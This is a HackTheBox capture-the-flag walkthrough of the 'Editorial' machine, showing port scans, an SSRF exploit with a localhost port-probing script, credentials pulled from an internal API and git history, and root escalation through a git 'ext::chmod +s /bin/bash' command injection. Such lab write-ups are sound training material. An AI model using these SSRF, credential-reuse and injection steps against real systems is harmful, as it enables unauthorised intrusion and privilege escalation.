



# Editorial HackTheBox WalkThrough


To start, we’ll conduct a port scan on the target machine using TCP.

```
nmap -p- -sS -n -Pn --min-rate 5000 10.129.71.35

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 15:37 CET
Nmap scan report for 10.129.71.35
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
```

The open ports identified are 22 and 80. Let's check which services are running on them.

```
nmap -p22,80 -sVC 10.129.71.35

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 15:39 CET
Nmap scan report for 10.129.71.35
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

The service scan reports that there is an HTTP service that redirects us to `http://editorial.htb`. We’ll add this domain to `/etc/hosts` for easier access.

```
echo '10.129.71.35 editorial.htb' >> /etc/hosts
```

Now we can visit the website.


On the site, we navigate to "**Publish with us**", which leads us to a form for submitting a book.


We’ll fill out this form and intercept the submission with **Burp Suite**.



Upon inspection, no immediate vulnerabilities are found. So, let’s intercept the request upon clicking the "**Preview**" button to examine the URL and file upload fields.


We’ll test if the server makes a request to a given URL by pointing it to our local machine.

We start a Python HTTP server.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we send a request to `/test` as an example.



```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.71.35 - - [03/Nov/2024 11:59:07] code 404, message File not found
10.129.71.35 - - [03/Nov/2024 11:59:07] "GET /test HTTP/1.1" 404 -
```

We see that a request is indeed made to the URL and that the response is saved to a file. This means we can attempt a **Server-Side Request Forgery** (**SSRF**).

---

**¿What is SSRF??**

*SSRF is a vulnerability where an attacker can make server-side requests to access resources they are unauthorized to access.*

*For instance, you might access internal network resources, open internal services, or restricted routes on the website.*

*You can learn more about SSRF [here](https://portswigger.net/web-security/ssrf).*

---

Let’s check if there are other web servers running internally by making requests to `localhost` (127.0.0.1) on various ports.



When the URL request is incorrect, the response is `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg`. We’ll write a script that iterates over a [list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/common-http-ports.txt) of HTTP ports and identifies the ports whose responses differ from this default.

First we will need to create a file `test.txt` to send it in the `bookfile` field.

```
echo 'test' > test.txt
```

Then we execute the following bash script.

```
nano tryPorts.sh
```

```bash
#!/bin/bash

ports=$(cat /usr/share/seclists/Discovery/Infrastructure/common-http-ports.txt)

for port in $ports; do
  res=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:$port" -F "bookfile=@test.txt")
  echo -ne "$port - $res                    \r"
  if ! [ "$res" == "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg" ]; then
    echo -e "\nPort: $port"
    echo "$res"
  fi
done
echo
```

* Change the path of the ports wordlist in the `3rd` line.
* Change the response string on error in the `8th` line.

```
chmod +x tryPorts.sh
./tryPorts.sh

5000 - static/uploads/fa532740-487b-44c3-851d-d981282b8e78                                          
Port: 5000
static/uploads/fa532740-487b-44c3-851d-d981282b8e78
```

The port `5000` seems to have a web server running.

If we navigate to the path given by the script: `static/uploads/fa532740-487b-44c3-851d-d981282b8e78`, the folloging json file will be downloaded.

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

The port `5000` appears to have an API running internally.

To explore the API conveniently, let’s create a bash script that sends the request and outputs the plain text response.

```
nano doreq.sh
```

```bash
#!/bin/bash

path=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=$1" -F "bookfile=@test.txt")
curl -s "http://editorial.htb/${path}"
```

For instance, let’s inspect the route `api/latest/metadata/messages/authors`.

```
./doreq.sh "http://127.0.0.1:5000/api/latest/metadata/messages/authors" | jq
```

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

It returns the message:

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.
```

It seems like a welcome message for a new employee, providing their username and password:

```
Username: dev
Password: dev080217_devAPI!@
```

We use these credentials to attempt SSH access on the machine.

```
ssh dev@editorial.htb

dev@editorial.htb's password: dev080217_devAPI!@
```

It worked!

Once connected, we find the **user flag** in the home directory.

```
cd
cat user.txt
```

In the home directory, there is a directory called `apps`. Let's enter and list its content.

```
cd apps
ls -lA

total 4
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```

It looks like a git project. We will check past commits to see if there are any exposed credentials.

```
git log

commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

...etc...
```

In the commit labeled `change(api): downgrading prod to dev`, we find a change in the welcome message.

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

...etc...

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

The credentials were what was changed in this commit. The previous ones were:

```
Username: prod
Password: 080217_Producti0n_2023!@
```

Now, we’ll attempt to switch to the `prod` user using these credentials.

```
su prod
Password: 080217_Producti0n_2023!@
```

To escalate privileges, let’s check if the `prod` user can execute any commands as root with `sudo`.

```
sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

We can execute the script `/opt/internal_apps/clone_changes/clone_prod_change.py` as root. Let's read it to look for vulnerabilities.

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Examining the script, we find out that it is trying to clone a repository allowing the use of `ext` (`multi_options=["-c protocol.ext.allow=always"]`).

---

**What is ext?**

*In git, ***ext*** allows a command to obtain the repository rather than a URL.*

*This can be dangerous if the URL is user-controlled, as it enables arbitrary command execution.*

*You can find more information about ***ext*** [here](https://git-scm.com/docs/git-remote-ext).*

---

To exploit this, we execute the script with sudo, passing it the payload `ext::<command-to-execute>` as first argument.

For example, let's give the bash `suid` privilege, which will allow us to execute a root bash later.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::chmod +s /bin/bash"
```

It throws an error since the command we passed does not return a valid git repository. It should have executed the command though.

Now we will execute a bash with the `-p` option to tell bash it must change the `UID`.

```
bash -p
```

And now we are **root**, so we can read its flag, concluding the **Editorial** machine.

```
cd /root
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.